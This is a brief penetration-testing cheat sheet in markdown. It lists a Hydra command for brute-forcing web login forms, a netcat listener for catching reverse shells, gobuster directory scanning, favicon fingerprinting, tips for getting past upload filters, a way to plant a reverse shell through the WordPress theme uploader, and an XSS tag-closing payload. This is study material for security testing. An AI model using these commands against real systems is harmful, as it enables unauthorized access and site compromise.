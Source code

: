 ## Hydra
  hydra -l username -P passwordlist.txt -s PORT IP http-post-form 'referurl:postbody^user^&^password:Error message'

## Netcat listener
  nc -nlvp PORT
  

## ICO
  * Identify a website framework from its ICO
  * curl ICO | md5sum
  * [OWASP ICO](https://wiki.owasp.org/index.php/OWASP_favicon_database)


## Gobuster
  * gobuster dir -u URL -w Wordlist(seclists/discovery/common is a good list) 

## Uploads
  * .phtml can bypass upload filters if the admin did not implement a proper upload check(Must be a php application)
  * [Wordpress uploads](https://www.hacknos.com/wordpress-shell-upload/)
  * If you have access to a wordpress administrator panel it is possible to upload a reverse shell via upload themes. The url schema is:
  * http(s)://IP/wp-content/uploads/year/day/filename

## XSS
* When testing payloads for XSS you can close the tag Hello {fakeTag}Name Goes here{/fakeTag}
* {fakeTag} {/fakeTag}insert XSS payload. Example payload = </fakeTag>script alert('XSS?');script
